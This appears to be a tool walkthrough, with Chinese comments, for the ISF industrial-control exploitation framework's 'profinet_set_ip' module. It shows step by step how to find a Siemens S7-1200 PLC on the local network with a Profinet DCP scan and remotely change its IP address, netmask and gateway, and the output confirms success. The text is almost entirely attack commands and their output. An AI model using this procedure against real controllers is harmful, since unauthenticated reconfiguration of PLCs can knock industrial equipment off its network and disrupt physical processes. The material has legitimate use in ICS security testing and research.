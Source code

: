 # Profinet set ip

# 使用 Profinet set ip module
    root@kali:~/Desktop/temp/isf# python isf.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
               https://github.com/reverse-shell/routersploit
    Dev Team : wenzhe zhu(dark-lbp)
    Version  : 0.1.0
    
    Exploits: 5 Scanners: 3 Creds: 13
    
    ICS Exploits:
        PLC: 5          ICS Switch: 0
        Software: 0
    
    isf >
    isf > search profinet
    exploits/plcs/siemens/profinet_set_ip
    scanners/profinet_dcp_scan
    isf > exploits/plcs/siemens/profinet_set_ip
    isf (profinet device ip setup) >

    
# 设置参数
    isf (profinet device ip setup) > show options
    Target options:
    
       Name       Current settings      Description
       ----       ----------------      -----------
       target     40:6c:8f:ff:ff:ff     Target mac address, e.g. 40:6c:8f:ff:ff:ff
    
    
    Module options:
    
       Name               Current settings     Description
       ----               ----------------     -----------
       timeout            3                    Timeout for response
       target_ip          192.168.1.100        IP Address to set
       nic                eth0                 Interface Name e.g eth0, en0
       target_gateway     0.0.0.0              Gateway to set
       target_netmask     255.255.255.0        Network mask to set
       verbose            0                    Scapy verbose level, 0 to 2
    
    # 由于Profinet dcp是以太网层的协议，因此我们首先需要设置使用哪个网口来发送和接收数据包。
    isf (profinet device ip setup) > set nic eth0
    [+] {'nic': 'eth0'}
    
    # 设置目标对象的mac地址, 
    isf (profinet device ip setup) > set target 00:1c:06:1d:ff:ff
    [+] {'target': '00:1c:06:1d:ff:ff'}
    
    # 若此时不知道对象的mac地址是多少，可以使用scan命令来进行局域网设备探测
    isf (profinet device ip setup) > scan
    Device Name    Device Type    MAC Address        IP Address      Netmask        GateWay
    -------------  -------------  -----------------  --------------  -------------  ---------
    plcxb1d0ed     S7-1200        00:1c:06:1d:ff:ff  192.168.1.100  255.255.255.0  0.0.0.0
    
    # 设置需要修改的IP地址，子网掩码及网关参数
    isf (profinet device ip setup) > set target_ip 192.168.1.110
    [+] {'target_ip': '192.168.1.110'}
    isf (profinet device ip setup) > set target_netmask 255.255.255.0
    [+] {'target_netmask': '255.255.255.0'}
    # 如果目标不需要配置网关则可以填写0.0.0.0
    isf (profinet device ip setup) > set target_gateway 0.0.0.0
    [+] {'target_gateway': '0.0.0.0'}

# 执行module
    isf (profinet device ip setup) > run
    # 执行命令run后将会针对目标发送profinet检测包，检测当前配置
    Device Name    Device Type    MAC Address        IP Address      Netmask        GateWay
    -------------  -------------  -----------------  --------------  -------------  ---------
    plcxb1d0ed     S7-1200        00:1c:06:1d:ff:ff  192.168.1.100  255.255.255.0  0.0.0.0
    
    
    [*] Please make sure target device info is correct.
    [*] Do you want setup target with
     ip address: 192.168.1.110
     network mask: 255.255.255.0
     gateway:0.0.0.0
    
    Y/y to confirm, other to cancel.
    输入Y或y后将会对目标的ip配置参数进行修改
    :y
    Device Name    Device Type    MAC Address        IP Address      Netmask        GateWay
    -------------  -------------  -----------------  --------------  -------------  ---------
    plcxb1d0ed     S7-1200        00:1c:06:1d:ff:ff  192.168.1.110  255.255.255.0  0.0.0.0
    
    
    [+] Setup target ip succeed
    isf (profinet device ip setup) >
